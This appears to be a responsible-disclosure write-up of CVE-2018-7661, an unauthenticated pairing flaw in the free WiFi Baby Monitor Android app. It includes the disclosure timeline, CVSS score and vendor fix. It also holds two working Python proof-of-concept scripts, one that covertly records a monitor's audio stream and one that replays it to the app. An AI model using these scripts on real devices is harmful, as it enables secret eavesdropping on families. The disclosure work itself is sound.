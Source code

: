 Whilst analysing a number of free communication based applications on the Google Play Store, I took a look at WiFi Baby Monitor: Free & Lite (the free version of WiFi Baby Monitor). Although the premium version offered users the ability to specify a password to be used in the pairing process, the free version offered no such function.

Monitoring the traffic using Wireshark during the pairing process revealed:

- The initial connection is made on port 8257
- To start the pairing process, the same sequence is sent each time
- After the pairing process is finished, another connection is opened to port 8258, where the audio data will be transmitted
- After the connection is made to port 8258, the connection on port 8257 is kept open and used as a heartbeat for the session
- On the heartbeat connection, the client will periodically send 0x01 to the baby monitor (roughly once per second)

## Abusing The Protocol to Record Audio

With the pairing process reversed, it was possible to create a proof of concept which proved that it was possible to deploy a small program into a compromised network which would eavesdrop on a baby monitor and allow for an attacker to play the recording back at a later date at their discretion.

The [very hacky] proof of concept code can be found below:

```
import socket
import sys
import time

if len(sys.argv) < 2:
    print "Usage: python {file} target_ip [port]".format(file = sys.argv[0])
    exit(1)

target = sys.argv[1]
port = 8257

if len(sys.argv) == 3:
    port = int(sys.argv[2])

s = socket.socket()
s.connect((target, port))
s.send('\x01')
s.send('\x02\x64\x00\x00\x00\x13\x2b\x52\x65\x63\x65\x69\x76\x65\x72\x53' +
       '\x74\x61\x72\x74\x5f\x32\x2e\x30\x32\x00\x00\x00\x00\x03\x23\x31' +
       '\x30\x00\x00\x00\x00\x03\x23\x32\x30\x00\x00\x00\x00\x03\x23\x32' +
       '\x31\x00\x00\x00\x00\x03\x23\x32\x32\x00\x00\x00\x00\x03\x23\x32' +
       '\x33')

heartbeat_dump = open('dump.heartbeat.bin', 'wb')
data_dump = open('dump.data.bin', 'wb')

has_data_socket = False
data_socket = socket.socket()
delta = 0

while True:
    time.sleep(1)
    data = s.recv(2048)
    if data is not None:
        heartbeat_dump.write(data)
        print '[*] Received {bytes} bytes on heartbeat socket'.format(bytes = len(data))
        s.send('\x01')

    if has_data_socket:
        data = data_socket.recv(2048)
        if data is not None:
            data_dump.write(data)
            print '[*] Received {bytes} bytes on data socket'.format(bytes = len(data))
            data_socket.send('\x01')
    else:
        print '[*] Establishing data connection'
        data_socket.connect((target, 8258))
        data_socket.send('\x01')
        data_socket.send('\x02\x64\x00\x00\x00\x07\x33\x5f\x5f\x30\x30\x30\x30')
        has_data_socket = True
        print '[*] Established data connection'

    delta += 1

heartbeat_dump.close
data_dump.close
```

This script establishes a connection to the baby monitor and begins to dump out the data from port 8257 to dump.heartbeat.bin and the data from port 8258 to dump.data.bin.

Replaying the Recordings
In order to replay the recordings made by the proof of concept, I created a second script which would act as a baby monitor and replay the data back to a client; which allows for replay via the original application:

```
import socket
import sys
import time

s = socket.socket()
s.bind(('0.0.0.0', 8257))
s.listen(5)
print '[*] Heartbeat socket listening on port 8257'

data_socket = socket.socket()
data_socket.bind(('0.0.0.0', 8258))
data_socket.listen(5)
print '[*] Data socket listening on port 8258'

data = ''
with open('dump.heartbeat.bin', 'r') as replay_file:
    data = replay_file.read()

wav_data = ''
with open('dump.data.bin', 'r') as wav_file:
    wav_data = wav_file.read()

c, addr = s.accept()
print '[*] Connection from {client}'.format(client = addr)
c.send(data)

data_connection, addr = data_socket.accept()
print '[*] Data connection from {client}'.format(client = addr)
data_connection.send(wav_data)

buf_start = 0
buf_end = wav_data.find('\x00\x00\x00\x01', 1)
buf = wav_data[buf_start:buf_end]

while buf is not None:
    c.send('\x01')
    print '[*] Sending {bytes} bytes'.format(bytes = len(buf))
    data_connection.send(buf)
    time.sleep(0.1)

    if buf_end == -1 or buf_start == -1:
        buf = None
    else:
        buf_start = buf_end
        buf_end = wav_data.find('\x00\x00\x00\x01', buf_end + 1)
        if buf_end == -1:
            buf = wav_data[buf_start:]
        else:
            buf = wav_data[buf_start:buf_end]

data_connection.close()
c.close()
print '[*] Connection closed'
```

A demonstration of the replay script accepting a connection from a client and replaying a recording can be seen below:

https://vimeo.com/258487598

## Solution

When notified, the vendor took the [respectably] responsible approach and made available to the free version the security features that were previously exclusive to the premium version.

To prevent this attack, users can simply update to the latest version of the application (v2.02.2, at the time of writing this).

## CVE-ID

CVE-2018-7661

## CVSS Score

CVSS Base Score: 5.9
Impact Subscore: 4.2
Exploitability Subscore: 1.6
CVSS Temporal Score: 5.3
Overall CVSS Score: 5.3
Vector: AV:A/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:H/E:P/RL:O/RC:C

## Disclosure Timeline

2018-02-11: Initial contact with vendor to make them aware of the attack vector
2018-02-12: Vendor acknowledged the issue and provided keys to test the premium version to verify the encryption and password protection would resolve the issue
2018-02-15: Confirmation sent to vendor to let them know the proposed solution should nullify the attack
2018-02-16: Vendor begins roll-out process for the new update
2018-02-22: Roll-out process completed and version 2.02.2 made available to the public